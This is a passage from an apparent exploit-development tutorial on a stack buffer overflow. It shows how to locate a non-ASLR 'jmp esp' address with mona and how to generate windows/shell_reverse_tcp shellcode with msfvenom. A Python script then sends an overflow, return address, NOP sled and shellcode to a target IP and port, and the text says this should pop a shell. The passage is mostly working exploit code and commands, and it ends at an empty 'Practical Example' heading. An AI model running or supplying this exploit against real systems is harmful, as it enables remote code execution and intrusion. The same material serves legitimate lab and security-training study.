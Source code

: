 Identify an address in the application where a `jmp esp` instruction exists that is free from Address Space Layout Randomization (ASLR). 

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

Pick a suitable address (e.g., `0x080414C3`) and use it in little-endian format (`\xc3\x14\x04\x08`).

### Injecting Shellcode:

Generate shellcode using `msfvenom`, excluding identified bad characters:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[Your IP] LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

Inject this shellcode into your payload:

**Python Script with Shellcode**:

```python
import socket

ip = "172.16.2.125"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"  # Address of jmp esp
padding = "\x90" * 16  # NOP sled
payload = (
"\xbd\xc6\x4a\xb9\xb1\xdb\xde\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x52\x31\x68\x12\x83\xc0\x04\x03\xae\x44\x5b\x44\xd2\xb1\x19"
"\xa7\x2a\x42\x7e\x21\xcf\x73\xbe\x55\x84\x24\x0e\x1d\xc8\xc8"
...  # Truncated for brevity
)
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending malicious payload...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Running this script should pop a shell on the vulnerable application.

## Practical Example
